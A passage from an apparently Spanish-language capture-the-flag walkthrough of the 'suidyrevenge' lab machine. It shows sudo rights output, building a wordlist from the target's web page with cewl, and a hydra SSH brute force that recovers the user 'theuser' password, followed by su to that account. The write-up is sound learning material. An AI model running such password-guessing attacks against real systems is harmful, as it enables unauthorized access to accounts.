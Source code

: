 ```
Matching Defaults entries for violent on suidyrevenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User violent may run the following commands on suidyrevenge:
    (root) NOPASSWD: /usr/bin/violent
```

Vemos que podemos ejecutar el binario `violent` como el usuario `root`, por lo que vamos a investigar dicho binario.

Pero no veremos nada interesante, buscando mucho sin encontrar resultados, vamos a probar a generar un diccionario de palabras de la pagina principal del servidor de la maquina victima y tirarle `fuerza bruta` al usuario `theuser` a ver si funciona.

```shell
cewl http://<IP> -w dic.txt
```

Ahora vamos a utilizar dicho diccionario.

```shell
hydra -l theuser -P dic.txt ssh://<IP>/ -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-16 14:56:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 31 tasks per 1 server, overall 31 tasks, 31 login tries (l:1/p:31), ~1 try per task
[DATA] attacking ssh://192.168.5.19:22/
[22][ssh] host: 192.168.5.19   login: theuser   password: different
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-16 14:56:43
```

Veremos que ha funcionado, por lo que vamos a escalar directamente a dicho usuario metiendo dicha contraseña.

```shell
su theuser
```

Metemos como contraseña `different` y veremos que seremos dicho usuario, por lo que leeremos la `flag` del usuario.
